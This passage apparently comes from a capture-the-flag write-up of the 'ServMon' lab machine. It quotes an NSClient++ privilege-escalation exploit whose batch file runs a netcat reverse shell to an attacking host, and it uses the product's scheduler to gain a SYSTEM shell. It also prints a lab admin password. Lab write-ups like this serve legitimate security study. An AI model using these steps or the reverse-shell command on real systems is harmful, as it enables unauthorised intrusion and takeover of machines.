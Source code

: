 ```text

3. Download nc.exe and evil.bat to c:\temp from attacking machine
	@echo off
	c:\temp\nc.exe 192.168.0.163 443 -e cmd.exe

4. Setup listener on attacking machine
	nc -nlvvp 443

5. Add script foobar to call evil.bat and save settings
- Settings > External Scripts > Scripts
- Add New
	- foobar
		command = c:\temp\evil.bat

6. Add schedulede to call script every 1 minute and save settings
- Settings > Scheduler > Schedules
- Add new
	- foobar
		interval = 1m
		command = foobar

7. Restart the computer and wait for the reverse shell on attacking machine
	nc -nlvvp 443
	listening on [any] 443 ...
	connect to [192.168.0.163] from (UNKNOWN) [192.168.0.117] 49671
	Microsoft Windows [Version 10.0.17134.753]
	(c) 2018 Microsoft Corporation. All rights reserved.

	C:\Program Files\NSClient++>whoami
	whoami
	nt authority\system
	
Risk:
The vulnerability allows local attackers to escalate privileges and execute 
arbitrary code as Local System
```

Well this didn't look too awfully complicated.  I now had step-by-step instructions for privilege escalation all the way to `nt authority\system`.  

```text
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display 

Current password: ew2x6SsGTxjRwXOT
```

Running the command in the exploit to get the NSCP web client administrator password gave me the same password that I had seen in the `nsclient.ini` file.  

Looking back through my notes, I saw that there was a port I hadn't checked out yet from my early Nmap scan.  Port TCP 8443 showed a website with the information `http-title: NSClient++`.  Navigating to `http://10.10.10.184:8443` resulted in failure.  After doing a bit more looking around I found an entry in `nsclient.ini` that seemed to specify that the Web interface could only be accessed from the specified hosts, which only included 127.0.0.1 in this case.  _Later I noticed the port was also listed in nsclient.ini, oops._ 
